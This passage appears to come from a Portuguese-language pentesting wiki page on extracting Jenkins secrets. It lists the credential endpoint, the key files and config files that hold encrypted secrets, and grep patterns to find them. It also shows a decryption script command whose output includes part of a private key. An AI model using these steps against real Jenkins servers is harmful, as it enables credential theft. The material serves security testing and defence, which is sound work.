 Você pode listar os segredos acessando `/credentials/` se tiver permissões suficientes. Note que isso listará apenas os segredos dentro do arquivo `credentials.xml`, mas **arquivos de configuração de build** também podem ter **mais credenciais**.

Se você pode **ver a configuração de cada projeto**, você também pode ver lá os **nomes das credenciais (segredos)** sendo usados para acessar o repositório e **outras credenciais do projeto**.

![](<../../.gitbook/assets/image (180).png>)

#### From Groovy

{% content-ref url="jenkins-dumping-secrets-from-groovy.md" %}
[jenkins-dumping-secrets-from-groovy.md](jenkins-dumping-secrets-from-groovy.md)
{% endcontent-ref %}

#### From disk

Esses arquivos são necessários para **descriptografar segredos do Jenkins**:

* secrets/master.key
* secrets/hudson.util.Secret

Tais **segredos geralmente podem ser encontrados em**:

* credentials.xml
* jobs/.../build.xml
* jobs/.../config.xml

Aqui está uma regex para encontrá-los:
```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```
#### Decrypt Jenkins secrets offline

Se você extraiu as **senhas necessárias para descriptografar os segredos**, use [**este script**](https://github.com/gquere/pwn\_jenkins/blob/master/offline\_decryption/jenkins\_offline\_decrypt.py) **para descriptografar esses segredos**.
```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```
#### Decrypt Jenkins secrets from Groovy
